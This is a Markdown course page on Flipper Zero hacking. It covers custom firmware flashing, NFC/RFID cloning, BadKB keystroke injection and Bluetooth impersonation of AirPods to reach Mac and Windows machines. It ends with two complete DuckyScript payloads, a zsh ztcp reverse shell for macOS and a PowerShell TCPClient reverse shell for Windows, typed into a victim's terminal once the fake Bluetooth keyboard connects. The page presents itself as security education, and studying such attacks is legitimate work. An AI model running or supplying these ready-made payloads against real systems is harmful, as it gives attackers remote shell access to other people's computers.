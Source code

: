 ![](../Assets/ZTW_Logos_Text_only_light_wo_TL_500x185.png)

# Flipper Zero Unleashed

Welcome to the Flipper Zero Unleashed course. This class holds everything from
an intro to intermediate level content.

# Guide

The following will be covered in this course:

* Introduction to Flipper Zero
* Jail Breaking a Flipper Zero
* RFID Hacking
* Bad Bluetooth (BadKB)
* Bluetooth Impersonation Attacks

## Introduction to Flipper Zero

A Flipper Zero is a versatile and programmable multi tool that is commonly used
for hacking. It's a handheld device equipped with various features that allow
users to explore and understand different aspects of cybersecurity.

Here's a breakdown of its key features:

1. **RFID/NFC Emulation:** The Flipper Zero can emulate RFID and NFC cards,
  allowing users to interact with contactless systems and understand their
  vulnerabilities.
2. **Bluetooth Hacking:** It has capabilities to analyze and manipulate
  Bluetooth signals, making it a useful tool for learning about wireless
  security protocols.
3. **Infrared Control:** With infrared capabilities, the Flipper Zero can be
  used for tasks like controlling TVs and other devices that use infrared
  communication.
4. **Tamagotchi-Like Interface:** The device has a playful tamagotchi-like
  interface, making it more engaging for users while they learn about hacking
  and security.
5. **Open-Source and Customizable:** One of the notable aspects is that it's
  open-source, meaning users can modify and customize the software to suit their
  needs. This makes it a great tool for learning programming, cybersecurity, and
  ethical hacking.

## Jail Breaking a Flipper Zero

Jail Breaking a Flipper otherwise known as Flashing a Flipper typically refers
to the process of loading or updating the firmware on the device. Firmware is
the software that runs on embedded systems. Flashing is necessary when you want
to install new features to extend your hacking abilities.

You may be asking how do I flash firmware onto my Flipper, is it easy?

My answer to this yes it easy, if you use the Web Updater. Many GitHub
repositories provide instant links to the web updater to install their firmware.
Once you click these links all you have to do is plug in your flipper to your
machine and click `Update`.

>Note: To update/Jail break a flipper you need a SD card, Also Flipper can support up to 256 GB SD cards

### GitHub Repositories:

> Below are the GitHub Repositories for the two most common Flipper Firmware's

* Unleashed: [DarkFlippers/unleashed-firmware (github.com)](https://github.com/DarkFlippers/unleashed-firmware)
* Extreme: [Flipper-XFW/Xtreme-Firmware (github.com)](https://github.com/Flipper-XFW/Xtreme-Firmware)

### Web Updater process:

> Below are Direct Links to the Flipper Labs Web Updater

* Unleashed: [Unleashed Web Updater](https://lab.flipper.net/?url=https://unleashedflip.com/fw_extra_apps/flipper-z-f7-update-unlshd-071e.tgz&channel=release-cfw&version=unlshd-071e)
* Extreme: [Xtreme Web Updater](https://flipper-xtre.me/update/)

### QFlipper app update process

### Resources:

> Below is further Resources that might help you if your struggling to install firmware on your Flipper

* Ultimate Guide: [Talking Sasquatch : Starter Guide - YouTube](https://www.youtube.com/watch?v=12M_oHmxcCQ)

## NFC/RFID Hacking

The Flipper Zero is great for Hacking RFID and NFC cards or tags. To access
these navigate to the "Apps" section on your device.

It has the following Capabilities:

* **Sniffing/Reading:** The Flipper can read most cards/tags
* **Writing** The Flipper can write to other cards/tags
* **Emulate** The Flipper can emulate a signal it has previously read and stored

## How to Clone Emulate NFC

> Disclaimer: Always be aware of the type of card or tag you are trying to hack with the
> Flipper, this helps you understand what module you need to use to actually be
> able to read it. For example, if you have an iClass card you don't want to be
> using the Mifare NFC Module.

## Bad Bluetooth (BadKB)

I always tell others that Bad Bluetooth is basically a wireless rubber ducky
attack. If you don't know what a rubber ducky is then that's ok. Bad KB and Rubber
Duckies allows you to emulate a keyboard and send pre-programmed key strokes to
any device you are connected to. In this case of a rubber ducky you must plug it
into a computer as it looks like a "USB" device. But in this case The Flipper
must connect over Bluetooth to the victims device to launch the attack.

## Bluetooth Impersonation Attacks

Our team recently gained recognition on TheHackerNews for uncovering a Bluetooth
and macOS vulnerability. This exploit enabled us to mimic a Bluetooth device,
such as AirPods or an iPhone, using a Flipper Zero. By impersonating the MAC
Address, we could intercept or establish an initial connection with a victim's
machine. The success of this approach relied on the machine itself trusting us
as the legitimate AirPods or Bluetooth device of choice for the victim. Once the
initial connection was established, our Flippers could then function as
`HID Devices` (Keyboards) with the `Bad Bluetooth` (`BadKB`) module. This capability
allowed us to send malicious keystrokes, ultimately granting us reverse shell
access to the targeted machine.

* **The Hack News Article:** [New BLUFFS Bluetooth Attack Expose Devices to Adversary-in-the-Middle Attacks (thehackernews.com)](https://thehackernews.com/2023/12/new-bluffs-bluetooth-attack-expose.html)
* **ThreatLocker Blog Post:** [How Hackers Use Bluetooth to Take Over Your Mac Device | ThreatLocker](https://www.threatlocker.com/blog/mac-bluetooth-impersonation-attacks)
* **Reverse Shell Payloads:**
  * MacOS Payload:[ ZTW/Payload (github.com)](macos-reverseshell-payload.txt)
    ```bat
    REM --- MACOS REVERSE SHELL ---
    DEFAULT_DELAY 14
    DELAY 1000
    GUI SPACE
    DELAY 500
    STRING terminal
    DELAY 500
    ENTER
    DELAY 1000
    STRING zsh -c 'zmodload zsh/net/tcp && ztcp <IP-HERE> <PORT-HERE> && zsh >&$REPLY 2>&$REPLY 0>&$REPLY' & curl parrot.live
    DELAY 500
    ENTER
    ```
  * Windows Payload: [ZTW/Payloads (github.com)](windows-revershell-payload.txt)
    ```bat
    REM --- WINDOWS REVERSE SHELL ---
    DEFAULT_DELAY 14
    DELAY 3000
    GUI r
    DELAY 500
    STRING powershell
    DELAY 500
    ENTER
    DELAY 1000
    STRING 'powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<IP-HERE>',<PORT-HERE>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
    DELAY 500
    ENTER
    DELAY 1000
    GUI r
    DELAY 500
    STRING cmd
    ENTER
    DELAY 1000
    STRING curl parrot.live
    DELAY 500
    ENTER
    ```

# Reference Links 

* **Unleashed Web Updater Version unlshd0.69:** [Unleashed Web Updater](https://lab.flipper.net/?url=https://unleashedflip.com/fw_extra_apps/flipper-z-f7-update-unlshd-071e.tgz&channel=release-cfw&version=unlshd-071e)
* **Extreme Web Updater:** [Xtreme Web Updater](https://flipper-xtre.me/update/)
* **Unleashed Github:** [DarkFlippers/unleashed-firmware (github.com)](https://github.com/DarkFlippers/unleashed-firmware)
* **Extreme Github:** [Flipper-XFW/Xtreme-Firmware (github.com)](https://github.com/Flipper-XFW/Xtreme-Firmware)
* **Ultimate Guide For New Flipper Owners:** [Talking Sasquatch : Starter Guide - YouTube](https://www.youtube.com/watch?v=12M_oHmxcCQ)
* **The Hack News Article:** [New BLUFFS Bluetooth Attack Expose Devices to Adversary-in-the-Middle Attacks (thehackernews.com)](https://thehackernews.com/2023/12/new-bluffs-bluetooth-attack-expose.html)
* **ThreatLocker Blog Post:** [How Hackers Use Bluetooth to Take Over Your Mac Device | ThreatLocker](https://www.threatlocker.com/blog/mac-bluetooth-impersonation-attacks)
* **MacOS Payload:**[ ZTW/Payload (github.com)](macos-reverseshell-payload.txt)
* **Windows Payload:** [ZTW/Payloads (github.com)](windows-revershell-payload.txt)
